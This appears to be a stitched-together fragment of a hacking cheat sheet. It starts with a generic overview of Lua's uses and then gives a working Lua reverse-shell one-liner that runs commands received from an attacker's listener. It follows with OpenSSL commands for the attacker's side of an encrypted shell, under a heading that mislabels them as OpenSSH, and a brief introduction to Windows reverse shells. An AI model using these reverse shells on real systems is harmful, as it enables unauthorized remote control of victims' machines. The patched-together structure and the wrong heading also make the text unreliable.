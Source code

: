 ### Usage

Lua can be used in a variety of ways, including:

- **Scripting**: Lua is often used as a scripting language in video games, allowing developers to define game logic and behavior in a flexible and customizable way.
- **Embedded systems**: Lua's small footprint and low resource requirements make it suitable for use in embedded systems, such as IoT devices and microcontrollers.
- **Extension language**: Lua can be embedded into other applications as an extension language, allowing developers to add scripting capabilities to their software.
- **Prototyping**: Lua's simplicity and ease of use make it a popular choice for rapid prototyping and experimentation.

### Conclusion

Lua is a versatile and lightweight programming language that is well-suited for embedded systems, scripting, and extension purposes. Its simplicity, efficiency, and ease of integration make it a popular choice among developers. Whether you are developing a video game, an IoT device, or a software application, Lua can be a valuable tool in your toolkit.
```bash
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
## OpenSSH

Attacker (Kali)
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
```
# Windows Shells

## Introduction

In the context of hacking, a shell refers to a command-line interface that allows an attacker to interact with a compromised system. In this section, we will explore various methods to obtain and maintain a shell on a Windows machine.

## Reverse Shells

A reverse shell is a technique where the attacker sets up a listener on their machine and the compromised system connects back to it. This allows the attacker to gain remote access to the victim's machine.

